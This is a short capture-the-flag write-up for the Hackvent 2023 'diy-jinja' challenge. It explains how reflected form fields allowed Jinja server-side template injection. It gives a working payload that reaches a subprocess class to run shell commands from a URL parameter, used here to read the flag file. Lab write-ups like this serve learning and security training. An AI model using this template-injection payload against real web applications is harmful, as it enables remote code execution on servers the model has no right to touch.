 # [HV23.10] diy-jinja

This one I solved differently from my current solution during Hackvent, but well, it also got nuked during my git-typo and I couldn't replicate my payload afterwards.

The server is  giving us the option to upload our own jinja template files, but only lowercase characters are allowed between the `{{}}` of jinja. So I looked in different places and noticed that our user input for form field names and description is reflected on the form submission page, the only restriction being that we can't use `"` or `'` in our payload, we can still get RCE by using the following payload.

```py
{{a.__class__.__base__.__subclasses__()[452](request.args.cmd, shell=True, stdout=-1).communicate()[0].strip()}}
```

Now we just have to go to our newly created form at `/form/7656fa0b-4765-48df-9d8e-b8cab60f023a` and add `?cmd=cat /app/flag.txt` to it to get the flag.

![flag](flag.png)

Flag: `HV23{us3r_suppl13d_j1nj4_1s_4lw4ys_4_g00d_1d34}`
